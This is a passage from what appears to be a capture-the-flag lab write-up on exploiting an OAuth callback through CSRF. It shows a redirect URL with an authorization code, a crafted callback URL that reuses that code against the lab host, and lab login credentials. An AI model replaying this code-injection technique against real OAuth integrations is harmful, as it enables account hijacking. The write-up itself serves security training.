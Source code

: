 We get redirected to this site:

```json
http://coffee.thm:8000/oauthdemo/callbackforcsrf/?code=sXt1wzffQb0QUNwwVX1MBq3eKh86hF

	
code	"FxFPFSIEwigUfWXQPN0Jx4d9agzHJa"
Payload	"http://bistro.thm:8080/csrf/callbackcsrf.php?code=FxFPFSIEwigUfWXQPN0Jx4d9agzHJa"
```

With our code, we can visit:

```
http://bistro.thm:8080/csrf/callbackcsrf.php?code=FxFPFSIEwigUfWXQPN0Jx4d9agzHJa
```

![Pasted image 20250505141925.png](../../../IMAGES/Pasted%20image%2020250505141925.png)

Now, we need to login using:

```
victim:victim
```

We will see this once we login:

![Pasted image 20250505142603.png](../../../IMAGES/Pasted%20image%2020250505142603.png)
